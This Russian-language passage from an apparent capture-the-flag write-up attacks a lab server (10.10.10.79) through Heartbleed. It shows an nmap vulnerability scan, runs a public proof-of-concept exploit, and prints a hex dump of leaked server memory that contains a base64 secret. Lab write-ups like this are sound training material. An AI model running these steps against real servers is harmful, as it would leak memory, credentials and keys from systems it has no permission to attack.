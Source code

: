 [![heartbleed_explanation.png](https://imgs.xkcd.com/comics/heartbleed_explanation.png)](https://imgs.xkcd.com/comics/heartbleed_explanation.png)

С помощью скриптового движка `nmap` подтвердим свое предположение относительно уязвимости сервера к Heartbleed:
```text
root@kali:~# nmap -n -v -sS -oN --script=ssl-heartbleed nmap/nse-ssl-heartbleed.nmap -p443 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.062s latency).

PORT    STATE SERVICE
443/tcp open  https
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://cvedetails.com/cve/2014-0160/
|       http://www.openssl.org/news/secadv_20140407.txt 
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Aug 13 14:24:44 2018 -- 1 IP address (1 host up) scanned in 1.12 seconds
```

Уязвим! Воспользуемся Heartbleed-эксплойтом для атаки на сервер. Можно применить скрипт "из коробки", входящий в состав Metasploit, но я решил найти решение на просторах GitHub. Выбор пал на [следующий Proof-of-Concept](https://github.com/mpgn/heartbleed-PoC "mpgn/heartbleed-PoC: Hearbleed exploit to retrieve sensitive information"), написанный на Пайтоне. После загрузки запустим скрипт:
```text
root@kali:~# ./heartbleed-exploit.py 10.10.10.79
Connecting...
Sending Client Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 885
 ... received message: type = 22, ver = 0302, length = 331
 ... received message: type = 22, ver = 0302, length = 4
Handshake done...
Sending heartbeat request with length 4 :
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response in file out.txt
WARNING : server returned more data than it should - server is vulnerable!
```

В файле `out.txt` находится полученная от сервера информация (листинг большой, приведу только интересующую нас часть):
```
root@kali:~# cat out.txt
...
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 5F  mV0aGVoeXBlCg==_
```